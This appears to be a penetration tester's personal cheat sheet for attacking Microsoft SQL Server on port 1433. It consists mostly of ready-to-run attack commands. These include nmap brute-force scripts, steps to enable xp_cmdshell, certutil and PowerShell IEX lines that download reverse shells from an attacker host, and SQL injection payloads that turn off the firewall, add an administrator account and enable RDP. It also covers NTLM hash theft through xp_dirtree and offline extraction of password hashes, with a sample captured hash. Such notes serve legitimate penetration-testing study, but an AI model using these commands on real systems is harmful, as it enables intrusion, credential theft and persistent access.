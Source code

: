 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Quick Enuemration
```bash - kali
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $TARGET
```

```bash - kali
nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts $TARGET
```

#### Connect with mssql-shell.rb  - 404 page
```bash - kali
wget https://raw.githubusercontent.com/dr0pb3ar/mssql-shell/master/mssql-shell.rb
```

```bash - kali
sudo gem install tiny_tds colorize
```

```bash - kali
sudo apt install freetds-dev
```

```bash - kali
chmod +x mssql-shell.rb
```

```bash - kali
sudo ./mssql-shell.rb -u $USER -p $PASSWORD $TARGET
```

```bash - kali
select @@version;
```

```bash - kali
:xp_cmdshell whoami
```

If this errors, just follow [[Port 1433 - MSSQL ~#sp_cmdshell]] or [[Port 1433 - MSSQL ~#xp_cmdshell]] to enable the feature.

[[1._Reverse Shells (WIN)]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```bash - kali
:xp_cmdshell certutil -urlcache -split -f http://$KALI/reverse.exe 
```

[[rlwrap]]

```bash - kali
:xp_cmdshell reverse.exe 
```

#### Connect with mssql_shell.py - BROKEN?
```bash - kali
wget https://raw.githubusercontent.com/Alamot/code-snippets/master/mssql/mssql_shell.py
```

Input Target IP, username and password.

```bash - kali
python mssql_shell.py
```

#### Connect with MSSQLClient 
```bash - kali
mssqlclient.py $HOSTNAME$/$USER:'$PASSWORD'@$TARGET -windows-auth
```

#### Connect with sqsh

```bash - kali
sqsh -S $TARGET:1433 -U sa
```

```bash - kali
RPSsql12345
```

#### sp_cmdshell

You may have to enter "go" after every command!

![[Pasted image 20220408112248.png]]

```SQL
sp_configure 'show advanced options', '1'
```

```SQL
RECONFIGURE
```

```SQL
sp_configure 'xp_cmdshell', '1'
```

```SQL
RECONFIGURE
```

```SQL
EXEC master..xp_cmdshell 'whoami'
```

[[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

[[rlwrap]]

```SQL
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://$KALI/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
```

#### xp_cmdshell
```SQL
enable_xp_cmdshell
```

```SQL
go
```

```SQL
xp_cmdshell 'date'
```

```SQL
 go
```

```SQL
xp_cmdshell whoami
```

```SQL
go
```

#### Powershell reverse shell
```python - kali
sudo python3 -m http.server 80
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

[[1._Reverse Shells (WIN)#Powershell reverse TCP]]

```SQL
xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://$KALI:80/powershell_reverse_tcp.ps1') | powershell -noprofile -"
```

```SQL
go
```

Python:
```SQL
EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami")'
```

[https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

#### xp_cmdshell RDP
```SQL
' UNION ALL SELECT 1,2--
```
  
```SQL
' UNION ALL SELECT @@version,2--
```

```SQL
' union select @@version,2; WAITFOR DELAY '0:0:5' ; --
```
   
```SQL
' union select @@version,2; EXEC sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:5' ; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; EXEC sp_configure 'xp_cmdshell', 1; --
```

```SQL
' union select @@version,2; RECONFIGURE; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'ping localhost'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'dir c:'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'netsh advfirewall set allprofiles state off'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net user foobar Password123 /add'; --
```

```SQL
' union select @@version,2; exec master..xp_cmdshell 'net localgroup Administrators foobar /add'; --
```

```bash
rdesktop -a 16 -z -u foobar -p Password123 $TARGET
```

RDP was already enabled in the above example. If disabled, we can try enabling RDP with:

```SQL
' union select user,null; exec master..xp_cmdshell ''reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f''; --
```

#### Enumeration
```SQL
select @@version;
```

```SQL
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

```SQL
SELECT name FROM master.sys.databases
```

```SQL
use volume
```

#### Steal NTLM hash
```bash - kali
mkdir share
```

```bash - kali
smbserver.py -smb2support share share/
```

```bash - kali
exec master..xp_dirtree '\\$KALI\share\',1,1 
```

`mssql-svc::$HOSTNAME:4141414141414141:fcf5ce3bc7c6f2d4cc186363f57a4afb:0101000000000000805cb28d9e1fd801cfdf67806cdb917000000000010010006e006b006f004f006c0070006b0049000200100061006800630076007a00630045005900030010006e006b006f004f006c0070006b0049000400100061006800630076007a0063004500590007000800805cb28d9e1fd80106000400020000000800300030000000000000000000000000300000bdca754ed8e5710ee15f0f7d0238f5927e0ad033b727c638d8831685eafab2d20a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003900000000000000000000000000`

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#NetNTLMv2]]

#### Getting hashes with tftp

Using [[Abbreviated dir]]'s, we put together the path
`C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\DATA\master.mdf`

However, we cannot read from there, so we aim to the backup folder:
`"C:\PROGRA~1\MICROS~1\MSSQL1~1.SQL\MSSQL\Backup\master.mdf" $TARGET`

[[Port 69 - TFTP#tftp py]]

```bash - kali
git clone https://github.com/xpn/Powershell-PostExploitation && cd Powershell-PostExploitation/ && cd Invoke-MDFHashes
```

Load PowerShell in Kali:
```bash - kali
pwsh
```

```PowerShell - kali
Import-Module ./Get-MDFHashes.ps1
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/$TARGET/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.Framework.dll
```

```PowerShell - kali
Add-Type -Path /home/kali/Desktop/$TARGET/Powershell-PostExploitation/Invoke-MDFHashes/OrcaMDF.RawCore.dll  
```

* Be sure to widen you terminal to see the whole hash!

```PowerShell - kali
Get-MDFHashes -mdf /home/kali/Desktop/$TARGET/master.mdf
```

